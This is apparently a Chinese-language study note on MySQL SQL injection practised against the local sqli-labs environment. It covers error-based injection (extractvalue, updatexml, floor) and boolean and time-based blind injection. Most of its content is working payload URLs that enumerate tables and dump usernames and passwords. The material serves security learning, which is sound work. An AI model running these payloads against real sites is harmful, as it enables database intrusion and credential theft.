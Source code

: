 ### 报错注入

**报错注入是一种****利用网站的报错信息来获取数据库信息**的注入方式。

**该方法的原理是在错误信息中执行SQL语句，利用数据库的某些机制制造错误条件，使得查询结果能够出现在错误信息中。**

**在MySQL中，执行一个正常的SQL语句，不会返回查询的内容，但是会打印一条报错语句，告诉你有一个SQL语法错误。利用该特性，构造SQL语句，让其返回数据库的相关信息。**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1,2,databse()--+
```

![1686741574661](image/1.3报错注入/1686741574661.png)

![1686741598115](image/1.3报错注入/1686741598115.png)

![1686744596624](image/1.3报错注入/1686744596624.png)

![1686744627371](image/1.3报错注入/1686744627371.png)

![1686744640082](image/1.3报错注入/1686744640082.png)

#### **利用extractValue()报错注入**

**使用extractvalue查询xml里面的内容**

```
select extractvalue(doc,'/book/author/surname')from xml;
```

```
select extractvalue(doc,concat(0x7e,(select database())))from xml;
```

![1686741645198](image/1.3报错注入/1686741645198.png)

![1686741655402](image/1.3报错注入/1686741655402.png)

** 0x7e     代表~             也可使用  '~' 代替**

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select database()))),3 --+
//查询库名 
```

![1686741758932](image/1.3报错注入/1686741758932.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3 --+
//查询该库内所有的表名
```

![1686741750543](image/1.3报错注入/1686741750543.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))),3 --+
```

![1686741729712](image/1.3报错注入/1686741729712.png)

```
http://localhost/sqli_labs/Less-5/?id=-1' union select 1, extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password) from users),1,30))),3 --+
//报错注入一次只能显示32个字符，所以使用substring函数继续显示。
```

![1686741738602](image/1.3报错注入/1686741738602.png)

#### updatexml函数

![1686744438757](image/1.3报错注入/1686744438757.png)

![1686743807264](image/1.3报错注入/1686743807264.png)

![1686744903423](image/1.3报错注入/1686744903423.png)

**database()				数据库库名
group_concat()			把查询到的结果合并到一行显示
concat()					合并字符
优先执行括号()里的命令**

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),3)--+
//查看该库内的表名
```

![1686745406727](image/1.3报错注入/1686745406727.png)

![1686745343388](image/1.3报错注入/1686745343388.png)

```
http://localhost/sqli_labs/Less-6/?id=1" and 1=updatexml(1,concat('~',(select substr(group_concat(username,password),1,28) from users)),3)--+
//查询列内的内容     substr与substring效果一致
```

#### floor报错

![1686746162473](image/1.3报错注入/1686746162473.png)

![1686746510907](image/1.3报错注入/1686746510907.png)

```
select floor(rand()*2) from users;
//有多少用户就计算多少次
```

![1686746803620](image/1.3报错注入/1686746803620.png)

```
select concat_ws('-',(select database()),floor(rand()*2)) from users;

```

![1686747331459](image/1.3报错注入/1686747331459.png)

![1686747572247](image/1.3报错注入/1686747572247.png)

```
select count(*),concat_ws('~',(select database()),floor(rand(0)*2)) as ben from users group by ben;
```

![1686747551142](image/1.3报错注入/1686747551142.png)

![1686747994232](image/1.3报错注入/1686747994232.png)

![1686748772714](image/1.3报错注入/1686748772714.png)

![1686752285015](image/1.3报错注入/1686752285015.png)

```
http://localhost/sqli_labs/Less-5/?id=1' union select 1,count(*),concat_ws('-',(select version()),floor(rand(0)*2)) as x from information_schema.tables group by x --+
//
```

![1686752433539](image/1.3报错注入/1686752433539.png)

```
http://localhost/sqli_labs/Less-5/?id=1' union select 1,count(*),concat_ws('-',(select concat('~',username,':',password) from users limit 0,1),floor(rand(0)*2)) as x from information_schema.tables group by x --+
//控制内容输出
```

#### 布尔盲注

![1686756891152](image/1.3报错注入/1686756891152.png)

![1686757325882](image/1.3报错注入/1686757325882.png)

```
http://localhost/sqli_labs/Less-8/?id=1' and ascii(substr((select database()),1,1))>=115--+
//用二分法来判断该数据库第一个字母ASCII码数值的区间，当条件满足时页面显示为真
http://localhost/sqli_labs/Less-8/?id=1' and ascii(substr((select database()),2,1))=101--+
//判断第二个字母
```

![1686758835076](image/1.3报错注入/1686758835076.png)

![1686758872818](image/1.3报错注入/1686758872818.png)

![1686758962369](image/1.3报错注入/1686758962369.png)

![1686758993336](image/1.3报错注入/1686758993336.png)

![1686759019689](image/1.3报错注入/1686759019689.png)

#### 时间盲注

1.没有回显

2.没有报错

3.没有真假值

![1686759465731](image/1.3报错注入/1686759465731.png)

```
http://localhost/sqli_labs/Less-9/?id=1' and sleep(2)--+
```

![1686759642346](image/1.3报错注入/1686759642346.png)

![1686760388119](image/1.3报错注入/1686760388119.png)

```
http://localhost/sqli_labs/Less-9/?id=1' and if(ascii(substr((select database()),1,1))=115,sleep(0),sleep(3))--+
//判断该库第一个字母ASCII码值是否=115，如果结果为真则立刻返回值，反之等待3秒
```

![1686760458238](image/1.3报错注入/1686760458238.png)

![1686760494139](image/1.3报错注入/1686760494139.png)
